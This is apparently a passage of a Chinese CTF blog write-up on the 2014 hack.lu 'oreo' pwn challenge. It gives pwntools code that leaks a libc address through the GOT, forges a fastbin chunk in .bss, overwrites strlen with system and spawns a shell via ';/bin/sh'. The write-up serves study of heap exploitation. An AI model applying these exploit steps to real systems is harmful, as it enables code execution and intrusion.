 ```py
payload = "a"*27 + p32(elf.got['puts'])

add(payload,"aaa")
show()

p.recvuntil("Description: aaa\n")
p.recvuntil("Description: ")
puts_addr = u32(p.recv(4))
print hex(puts_addr)
sys = puts_addr - 0x24f00
```

第二步，想要在bss段上构造一个chunk（如下图）的话，

![20210331183238](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210331183238.png)
（另外还要把order_mesg_ptr看作chunk的size，置为0x40）

```py
a = 1
while a<0x3f:
	add("aa","aa")
	a+=1
#0x3f and leave one here
fake_chunk = 0x0804A2A8
add("1"*27+p32(fake_chunk),"aaaa")
```

是很明显的。
但如何能让这块区域能够使用就要考虑free时对next_chunk的判断：

```py
payload = "\x00"*0x20 + "a"*4 + p32(100)
add_message(payload)
```

此时order()后，fastbin接收的（唯一一个）chunk将在下一次malloc时分配出去
随后修改strlen指向的地址就能在cut_input()时getshell

```py
payload = p32(elf.got['strlen']).ljust(20,'a')
add("aaa",payload)
add_message(p32(sys)+';/bin/sh')
p.interactive()
# system(p32(system_addr);"/bin/sh") = system(p32(system_addr));system("/bin/sh");
```

另：写一半把ida关了，且没保存数据orz，所以最后就写的比较快且没有截图了...

参考：
https://bbs.pediy.com/thread-247214.htm
https://ctf-wiki.org/pwn/linux/glibc-heap/fastbin_attack/#2014-hacklu-oreo

# House of Force
